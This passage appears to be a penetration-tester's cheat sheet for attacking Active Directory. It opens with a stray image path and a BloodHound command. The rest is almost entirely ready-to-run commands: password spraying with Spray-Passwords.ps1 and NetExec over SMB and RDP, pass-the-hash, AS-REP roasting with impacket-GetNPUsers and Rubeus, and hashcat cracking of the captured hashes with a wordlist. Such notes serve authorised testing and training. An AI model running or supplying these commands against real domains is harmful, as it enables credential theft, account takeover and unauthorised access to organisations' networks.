 ```
bloodhound
```

## Attacking AD

### Password Attacks

#### Spray-Passwords.ps1

Script automatically identifies domain users and sprays a password against them.

```
powershell -ep bypass
```

```
.\Spray-Passwords.ps1 -Pass <<PASSWORD>> -Admin
```

```
.\Spray-Passwords.ps1 -File <<PASSWORD_FILE>> -Admin
```

#### NetExec

```
nxc smb 172.16.190.82 -u john -p passwords.txt --continue-on-success
```

```
nxc smb 172.16.190.82 -u john -H <<HASH>>
```

```
nxc rdp 172.16.190.82 -u john -p passwords.txt --continue-on-success
```

### AS-REP Roasting

#### impacket-GetNPUsers (Linux)

```
impacket-GetNPUsers -dc-ip <<DC_IP>> -request -outputfile hashes.asreproast <<DOMAIN>>/<<USERNAME>>
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
```

#### Rubeus (Windows)

Rubeus will automatically identify vulnerable user accounts.

```powershell
.\Rubeus.exe asreproast /nowrap
```

#### Cracking AS-REP Hash

```
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

